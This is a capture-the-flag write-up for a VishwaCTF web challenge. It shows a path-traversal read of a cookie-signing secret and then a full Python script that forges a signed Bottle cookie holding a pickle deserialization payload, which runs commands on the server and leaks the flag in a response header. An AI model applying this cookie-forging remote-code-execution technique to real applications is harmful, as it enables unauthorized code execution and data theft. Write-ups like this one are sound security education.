

# Prompt Injection
`Difficulty: Expert`

DESCRIPTION
I have this collection of poems and whenever I am happy I have a look at them, hope you like it.

Author: Samarth Kamble

FLAG FORMAT: `VishwaCTF{}`

## Solution:

This challenge is similar to one of the challenges I found on the Internet, From there I get an idea to solve the problem

from this route (`/show?id=/app/config/secret.py`) I got the secret that is used to sign cookies


`Vishwa = "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd"`
<br><br>

To sign i went to this route and this is what i get


from this i get to know that the is used use admin access

so to perform all these steps i got python script 
in which I entered the key and the website URL with route

```
key: trrrrrrrrrrrrryyyyyyyyyyyharddddddddd
url: https://ch681045157935.ch.eng.run/sign
```
<br>


```python
import os, hmac, hashlib, base64, pickle, requests

def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)

def touni(s, enc='utf8', err='strict'):
    if isinstance(s, bytes):
        return s.decode(enc, err)
    return str("" if s is None else s)

def create_cookie(name, value, secret):
    d = pickle.dumps([name, value], -1)
    encoded = base64.b64encode(d)
    sig = base64.b64encode(hmac.new(tob(secret), encoded, digestmod=hashlib.md5).digest())
    value = touni(tob('!') + sig + tob('?') + encoded)
    return value

class PickleRCE(object):
    def __reduce__(self):
        return (exec,("""
from bottle import response
import subprocess,base64
flag = subprocess.check_output('/flag', shell=True)
response.set_header('X-Flag',base64.b64encode(flag))
""",))

session = {"name": PickleRCE()}
cookie = create_cookie("name", session, "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd")

r = requests.get("https://ch681045157935.ch.eng.run/sign", cookies={"name": cookie})
print(base64.b64decode(r.headers["x-flag"]).decode("ascii"))

```

after runnig this script we get the flag

### Flag:
`VishwaCTF{W3lcome_t0_p03m_p0ck3t}`

